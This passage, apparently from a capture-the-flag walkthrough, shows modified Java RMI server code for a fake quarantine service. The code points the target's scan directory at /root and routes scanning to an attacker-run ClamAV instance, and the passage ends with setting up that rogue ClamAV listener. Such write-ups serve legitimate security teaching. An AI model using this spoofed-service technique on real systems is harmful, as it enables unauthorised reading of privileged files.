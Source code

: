 ```java

        if (isQuaratineService){
            try {
                UnicastRemoteObject.unexportObject(quarantineServiceStub, true);
            } catch (Exception e) {
                Logger.println("Error: " + e.getMessage());
            }
        }

        if (isFileService){
            try {
                UnicastRemoteObject.unexportObject(fileServiceStub, true);
            } catch (Exception e) {
                Logger.println("Error: " + e.getMessage());
            }
        }
    }
```

Modified code snippets from **QuarantineServiceImpl** and **FileServiceConstants**.

```java
public class FileServiceConstants {
    public static final File SITES_DIRECTORY = new File("/root");
}
```

```java
public class QuarantineServiceImpl
implements QuarantineService {
    private static final Logger logger = Logger.getLogger(QuarantineServiceImpl.class.getSimpleName());
    private static final QuarantineConfiguration DEFAULT_CONFIG = new QuarantineConfiguration(new File("/tmp/quarantine"), FileServiceConstants.SITES_DIRECTORY, RegistryClient.clamAVAddress[0], Integer.parseInt(RegistryClient.clamAVAddress[1]), 1000);

    @Override
    public QuarantineConfiguration getConfiguration() throws RemoteException {
        logger.info("client fetching configuration");
        return DEFAULT_CONFIG;
    }
}
```

There is more code that was written for `rmg`, but that is not important for this walkthrough.

##### Setup rouge ClamAV server

So now should just start the ClamAV server i used `/usr/sbin/clamd -c /etc/clamav/clamd.conf` to start the service with the new configuration. But before make sure that the service is stopped and you have now running ClamAV instances.

```txt
┌──(root㉿kali)-[~]
└─# cat /etc/clamav/clamd.conf | tail -n 2
TCPSocket 3310
TCPAddr 0.0.0.0
```
